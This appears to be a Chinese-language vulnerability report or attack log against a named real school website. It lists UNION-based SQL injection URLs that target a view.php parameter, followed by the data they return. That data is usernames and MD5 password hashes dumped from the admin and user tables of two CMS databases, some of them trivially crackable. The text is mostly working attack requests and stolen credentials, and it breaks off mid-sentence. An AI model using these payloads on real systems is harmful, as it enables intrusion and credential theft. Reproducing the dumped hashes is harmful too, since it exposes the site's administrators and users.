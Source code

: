 http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(user)%20from%20duxcms.dc_admin)%20--

duxcms.dc_admin中的用户:

	admin

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(user,password)%20from%20duxcms.dc_admin)%20--

ducms.dc_admin中admin用户的口令

	admin   21232f297a57a5a743894a0e4a801fc3

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(admin_name)%20from%20qcms.qcms_admin)%20--

qcms.qcms_admin的用户名和口令

	admin
	caomh
	xinfang
	cmhai168

	admin525320665cd767101d732e30768dd276
	caomhcd384a477c8b6114a2bce922ec0c6c5e
	xinfangf342dd5d36c4227a5b22d12915160e67
	cmhai168c49108f46b350741a6a0674dac8d6a83

http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(username,userpwd)%20from%20qcms.qcms_users)%20--

qcms.qcms_users的用户名、口令、email、qq、tel、truename、address、money

	kbenfqir,ckxlllum,ibqydfyr,mlgwwsfx,yqhlmjjf,shufu,lirsetjq,yaya,,madeinchina

	d41d8cd98f00b204e9800998ecf8427e
	d41d8cd98f00b204e9800998ecf8427e
	kbenfqir1f1767b5696e79116b11ecc7f2882783
	ckxlllum1f1767b5696e79116b11ecc7f2882783
	ibqydfyr1f1767b5696e79116b11ecc7f2882783
	mlgwwsfx1f1767b5696e79116b11ecc7f2882783
	yqhlmjjf1f1767b5696e79116b11ecc7f2882783
	shufue10adc3949ba59abbe56e057f20f883e
	lirsetjq1f1767b5696e79116b11ecc7

	d41d8cd98f00b204e9800998ecf8427e
	d41d8cd98f00b204e9800998ecf8427e
	kbenfqir1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606
	ckxlllum1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606
	ibqydfyr1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606
	mlgwwsfx1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606

	这个表总的记录是有问题的,总共4302条记录, 有的没有用户名, 有的没有密码,有效记录只有几条:
